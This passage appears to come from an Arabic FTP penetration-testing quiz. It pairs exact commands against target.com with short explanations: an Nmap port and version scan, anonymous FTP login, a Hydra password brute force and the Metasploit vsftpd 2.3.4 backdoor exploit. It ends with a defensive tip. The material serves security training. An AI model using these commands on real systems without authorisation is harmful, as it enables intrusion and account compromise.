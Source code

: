 #### 11. اكتب الأمر لفحص ما إذا كان منفذ 21 مفتوحًا على target.com باستخدام Nmap.
**الإجابة:** nmap -p 21 target.com

#### 12. كيف تستخدم Nmap لمعرفة إصدار خادم FTP على target.com؟
**الإجابة:** nmap -p 21 -sV target.com

#### 13. اكتب الأمر لاختبار تسجيل الدخول المجهول على target.com باستخدام FTP.
**الإجابة:** ftp target.com ثم Name: anonymous و Password: anonymous

#### 14. إذا أردت اختبار قوة كلمة المرور باستخدام Hydra على target.com، اكتب الأمر.
**الإجابة:** hydra -l admin -P passwords.txt ftp://target.com

#### 15. كيف تستخدم Metasploit لاستغلال ثغرة vsftpd 2.3.4 على target.com؟
**الإجابة:** msfconsole ثم use exploit/unix/ftp/vsftpd_234_backdoor و set RHOST target.com و exploit

---

### **أسئلة "لماذا" لتفسير المفاهيم**

#### 16. لماذا نقوم بفحص FTP في اختبار الاختراق؟
**الإجابة:** لاكتشاف المنافذ المفتوحة والإعدادات الخاطئة والثغرات لتأمين الخادم.

#### 17. لماذا يُعتبر تسجيل الدخول المجهول ضعفًا أمنيًا خطيرًا؟
**الإجابة:** لأنه يسمح لأي شخص بالوصول إلى الملفات دون مصادقة.

#### 18. لماذا نستخدم Nmap لفحص إصدار خادم FTP؟
**الإجابة:** لمعرفة الإصدار والبحث عن ثغرات مرتبطة به.

#### 19. لماذا تُستخدم Hydra في فحص FTP؟
**الإجابة:** لاختبار قوة كلمات المرور واكتشاف الحسابات الضعيفة.

#### 20. لماذا يُعتبر Metasploit مفيدًا في فحص FTP؟
**الإجابة:** لأنه يبحث عن ثغرات ويستغلها لفهم المخاطر.

---

### **أسئلة التفكير الأمني (Web Pentesting فقط)**

#### 21. كيف يمكن لـ Web Pentester استخدام فحص FTP لاكتشاف بيانات حساسة على خادم ويب؟
**الإجابة:** يفحص منفذ 21 بـ Nmap ويختبر تسجيل الدخول المجهول للوصول إلى الملفات.

#### 22. كيف يمكن لمدافع عن خادم ويب تقليل مخاطر تسجيل الدخول المجهول في FTP؟
**الإجابة:** يُعطل الـ Anonymous Login ويضع كلمات مرور قوية.
